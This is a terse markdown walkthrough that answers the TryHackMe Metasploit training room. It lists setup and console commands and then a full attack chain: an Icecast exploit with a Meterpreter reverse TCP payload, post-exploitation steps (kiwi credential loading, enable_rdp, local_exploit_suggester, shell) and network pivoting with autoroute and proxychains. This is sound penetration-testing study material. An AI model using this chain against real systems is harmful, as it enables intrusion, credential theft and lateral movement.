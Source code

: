 # Metasploit

[rp-metasploit](https://tryhackme.com/room/rpmetasploit)

## Summary

1. Metasploit is a penetration testing tool (preinstalled in Kali)

## Solutions

1. Install Metasploit

   1. Install from [metasploit github repo](https://github.com/rapid7/metasploit-framework)

2. Initialize

   1. `msfdb init`
   2. `msfconsole -h`
   3. `-q`
   4. `msfconsole`
   5. `db_status`
   6. `postgressql`

3. Commands

   1. `help`
   2. `?`
   3. `search`
   4. `use`
   5. `info`
   6. `connect`
   7. `banner`
   8. `set`
   9. `setg`
   10. `get`
   11. `unset`
   12. `spool`
   13. `save`

4. Modules

   1. `exploit`
   2. `payload`
   3. `auxiliary`
   4. `post`
   5. `encoder`
   6. `nop`
   7. `load`

5. Exploit

   1. `db_nmap -sV 10.10.193.197`
   2. `msrpc`
   3. `hosts`
   4. `services`
   5. `vulns`
   6. `exploit/windows/http/icecast_header`
   7. `#`
   8. `use 6`
   9. `set payload windows/meterpreter/reverse_tcp`, `set lhost <host from ip addr>`
   10. `use icecast`
   11. `set rhost <box ip>`
   12. `run -j`
   13. `jobs`
   14. `sessions -i <first session in sessions>`

6. Post exploit modules

   1. `ps | grep spool` -> spoolsv.exe
   2. `migrate`
   3. `getuid`
   4. `sysinfo`
   5. `load kiwi`
   6. `getprivs`
   7. `upload`
   8. `run`
   9. `ipconfig`
   10. `run post/windows/gather/checkvm`
   11. `run post/multi/recon/local_exploit_suggester`
   12. `run post/windows/manage/enable_rdp`
   13. `shell`

7. Autoroute

   1. `run autoroute -s 172.18.1.0 -n 255.255.255.0`
   2. `auxiliary/server/socks4a`
   3. `proxychains`
